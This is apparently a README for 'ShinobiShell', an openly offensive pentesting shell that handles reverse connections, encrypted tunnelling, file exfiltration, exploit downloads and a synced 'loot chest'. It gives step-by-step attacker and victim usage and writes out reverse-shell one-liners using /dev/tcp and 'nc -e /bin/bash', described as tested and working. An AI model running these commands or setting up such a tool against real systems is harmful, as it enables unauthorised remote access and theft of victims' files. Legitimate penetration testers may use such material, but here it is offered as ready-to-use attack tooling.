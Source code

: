 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
usage: PROG [options]

Shinobi shell is a shell specifically designed to make exfiltration, proxying,
persistance and other pentesting actions easier.

optional arguments:
  -h, --help            show this help message and exit
  -t, --ttyCheat        Shows tty shell cheat sheet (need a tty shell for shinobi shell to work)
  -c, --connect         Flag that indicates a reverse shell connection (use this on victim machine)
  -l LISTEN, --listen LISTEN
                        Starts Shinobi Shell listener on port passed in
  -k, --key             Will create an encrpyted tunnel if encrpytion libs available
  -r SERVERADDRESS, --serveraddress SERVERADDRESS
                        Local IP Address used for universal reverse shell
                        handler (optional - use if different than default)
```
Use:

Server (Attacking box) 
`./shinobishell.py -l 4443 -k`

`-l` Port server will listen on

`-k` Requesting an encrypted tunnel server


OPTION 1: Run Shinobi Shell manually on the victim machine 

Client (Penetrated box) 
`./shinobishell.py -c -k ` 

`-c` Connect back to a server

`-k` Try and make an encrytped tunnel

For both server and client, you'll be propmted for a password when using `-k`

For `-c` you will be prompted at run time for the server address

Both `-c` and `-k` were moved to runtime inputs to prevent leaking attacking machine address and key in bash history

OPTION 2: Start a Shinobi Shell listener on your attacking machine and send it a shell

Attacking Machine

`./shinobishell.py -a`
> Shinobi Tunnel Plaintext ~~ Be aware
> Which port to listen on: 1000
> What is the ShinobiServer address:port combination: 127.0.0.1:443


Victim Machine

Send a reverse shell 

(tested and known to work)

`/bin/bash -i >& /dev/tcp/127.0.0.1/1000 0>&1`

`nc 127.0.0.1 1000 -e /bin/bash`

`nc 127.0.0.1 1000 -e /bin/sh`

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
